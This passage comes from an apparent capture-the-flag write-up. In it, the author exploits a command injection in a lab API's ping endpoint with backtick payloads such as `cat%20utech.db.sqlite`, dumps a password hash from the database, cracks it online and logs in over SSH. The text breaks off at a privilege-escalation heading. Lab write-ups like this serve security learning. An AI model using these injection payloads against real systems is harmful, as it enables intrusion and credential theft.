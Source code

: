 I try to use ip with a request to localhost. Here is the output for the request to http://target.thm:8081/ping?ip=127.0.0.1:

```bash
PING localhost(localhost6.localdomain6 (::1)) 56 data bytes 64 bytes from localhost6.localdomain6 (::1): icmp_seq=1 ttl=64 time=0.019 ms --- localhost ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms
```

This command takes an ip address and shows the output from running ping. I want to send an ip address with a bash command to see if I have remote code execution. I made a request to http://target.thm:8081/ping?ip=127.0.0.1`ls` and got the following output:

```bash
ping: utech.db.sqlite: Name or service not known
```

There is a database called utech.db.sqlite in the directory where this api code resides.

## What is the first user's password hash?

I tried to cat out the contents of that file with http://target.thm:8081/ping?ip=127.0.0.1`cat utech.db.sqlite` and I got the following error:

```bash
curl: (52) Empty reply from server
```

I tried a few other commands and each time I used a space in the command it got that error. I remembered that for spaces urls encode them as `%20`. With that in mind I got the following output from the url http://target.thm:8081/ping?ip=127.0.0.1`cat%20utech.db.sqlite`:

```bash
\ufffd\ufffd\ufffd(REDACTEDf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

I have redacted the username of the first user but their password hash is f357a0c52799563c7c7b76c1e7543a32.

## What is the password associated with this hash?

I took that hash and ran it through [CrackStation](https://crackstation.net/). It has this hash cracked.

## Getting a Foothold

Using that password and the username provided when I ran cat on the utech.db.sql file, I used ssh to log in to the machine:

```bash
$ ssh REDACTED@target.thm
```

## Privilege Escalation
